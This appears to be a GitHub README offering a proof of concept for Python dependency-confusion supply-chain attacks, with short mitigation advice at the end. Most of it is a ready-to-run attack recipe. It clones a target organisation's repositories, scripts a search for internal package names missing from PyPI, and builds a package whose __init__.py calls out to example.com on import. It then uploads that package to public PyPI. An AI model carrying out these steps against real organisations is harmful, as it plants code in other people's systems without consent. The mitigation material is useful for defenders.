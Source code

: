 <h1 align="center">
    <a href="https://www.youtube.com/@techghoshal"><img src="https://github.com/techghoshal/Fix-Grub-Boot-Menu/assets/85815644/26ed3a3f-a1e6-452c-b2ac-cac5c3d7478e"></a>
<h1 align="center">Python Dependency Confusion Attacks POC
<p align="center"><img alt="Twitter Follow" src="https://img.shields.io/twitter/follow/techghoshal?style=social"></p>
</h1>

# Introduction

Dependency confusion is a supply chain vulnerability that arises when package managers inadvertently install malicious packages from public repositories instead of intended private ones. This issue is particularly prevalent in Python's package management system, where tools like `pip` may prioritize public packages over private ones if not properly configured. Exploiting this behavior can lead to severe consequences, including remote code execution (RCE) on target systems.

# Attack Overview

The typical workflow of a dependency confusion attack involves the following steps:

1. **Identifying Target Dependencies**: Attackers search for `requirements.txt` files in public repositories to identify internal package names used by organizations.

2. Verifying Package Availability: For each identified package, attackers check if it exists on the public Python Package Index [(PyPI)](https://pypi.org/). This can be automated using tools like `httpx` to detect 404 responses, indicating the package is absent from PyPI.

3. **Publishing Malicious Packages**: Attackers create and publish malicious packages on PyPI using the same names as the internal packages. These malicious packages can be designed to execute arbitrary code upon installation.

4. **Triggering Installation**: When the target organization installs dependencies without strict index configurations, `pip` may fetch the malicious package from PyPI, leading to code execution within the organization's environment.

# Proof of Concept (PoC)

The repository provides a PoC demonstrating this attack vector:

- **Cloning Target Repositories**: Utilize tools like [ghorg](https://github.com/gabrie30/ghorg) to clone all repositories from a target organization.

```bash
ghorg clone <target_organization> -t <personal_access_token>
```
- **Extracting Dependencies**: Search for `requirements.txt` files and extract package names.

```bash
find . -type f -name requirements.txt | \
xargs -n1 -I{} cat {} | \
sed 's/[><=~!].*//' | \
tr -d '[:space:]' | \
sort -u | \
xargs -I{} sh -c 'curl -s -o /dev/null -w "%{http_code} https://pypi.org/project/{}/\n" https://pypi.org/project/{}/' | \
grep "^404"
```
- **Creating Malicious Packages**: For each vulnerable package:
```bash
$ mkdir <package-name>
$ cd <package-name>
$ mkdir <package-name>
$ cd <package-name>
$ touch __init__.py
```
- **Insert malicious code into** `__init__.py`:
```bash
import requests
# Example: Send a request to a monitoring URL
requests.get("https://example.com/notify")
```
- Save this file and back `cd..` from the directory
- **Create** `setup.py` with appropriate metadata:
**Note**: The version of package and the version of the vulnerable package must be same
```bash
from setuptools import setup, find_packages

setup(
    name="<package-name>",
    version="0.0.1",
    author="Attacker Name",
    author_email="attacker@example.com",
    description="Malicious package for dependency confusion attack",
    packages=find_packages(),
    install_requires=['requests'],
)
```
- Build and upload the package to PyPI:
```bash
$ python3 setup.py sdist bdist_wheel
$ pip3 install twine
$ twine upload dist/*
```
# Mitigation Strategies

To protect against dependency confusion attacks:

- **Configure Package Indexes**: Use `--index-url` and `--extra-index-url` options in `pip` to prioritize private repositories over public ones.

- **Implement Package Scopes**: Employ tools like `pip`'s upcoming features (as per [PEP 708](https://peps.python.org/pep-0708/)) to define trusted sources for specific packages.

- **Monitor and Audit Dependencies**: Regularly scan dependencies for anomalies and ensure that all internal packages are also present in private repositories to prevent unauthorized public versions.

- **Use Dependency Management Tools**: Utilize tools like [Thoth](https://developers.redhat.com/articles/2021/12/21/prevent-python-dependency-confusion-attacks-thoth) to manage and resolve dependencies securely.

# Conclusion

Dependency confusion poses a significant risk to software supply chains. By understanding the attack vectors and implementing robust dependency management practices, organizations can mitigate the threat and secure their development environments.

### Connect me

If you have any queries, you can always contact me on [Linkedin](https://www.linkedin.com/in/anindyaghoshal/)
